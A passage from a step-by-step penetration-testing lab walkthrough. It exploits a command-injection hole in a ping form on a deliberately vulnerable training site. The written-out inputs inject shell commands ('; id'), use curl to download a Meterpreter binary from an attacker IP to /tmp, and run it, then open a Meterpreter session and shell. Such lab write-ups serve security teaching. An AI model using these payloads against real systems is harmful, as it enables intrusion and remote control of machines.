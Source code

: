 19. Try out that `ping.php` page that the source code comment is mentioning:

    <http://bustakube-node-1:31370/ping.php>


20. Notice that this form appears to be let you try to ping IP addresses, ostensibly so that Seat Meister staff can check uptime on servers.

21. Try entering `127.0.0.1` into this form.

    ```
    127.0.0.1
    ```

22. That output might look familiar. It's the same output we'd get if we ran the standard `ping` utility commonly found on Linux systems. Let's look for an easy command injection. Try entering `127.0.0.1` into this form again, but add a ` ; id` to that.

    ```
    127.0.0.1 ; id
    ```

23. Notice that this form is clearly vulnerable to an injection attack and is adding our input to a shell command.  In using `id`, we've been told that the web server is running as user `www-data`. We can run arbitrary commands.

24. Let's tell the form to download and run our Meterpreter binary (`mrsbin`).
    
25. In the form field, add a curl command to download the `mrsbin` binary and write it (via `-o /tmp/mrsbin`) to `/tmp/mrsbin`. Then hit the "submit" button.

    ```
    127.0.0.1 ; curl -o /tmp/mrsbin http://10.23.58.30/mrsbin
    ```

26. Now tell the form to make that `mrsbin` binary executable and run it. Put this in the form field and hit the "submit" button.

    ```
    127.0.0.1 ; chmod 755 /tmp/mrsbin ; /tmp/mrsbin
    ```


27. Go check your Metasploit console. You should now see a line that reads something like "Meterpreter session 1 opened…"

28. Interact with this new session:

    ```shell
    sessions -i 1
    ```

29. Instruct Meterpreter to give you a minimal interactive shell. You won't get any immediate feedback from the system, just a "Process … created" and "Channel … created" line from Metasploit.

    ```shell
    shell
    ```

30. Make the shell more interactive by starting a bash process with the `-i` flag:
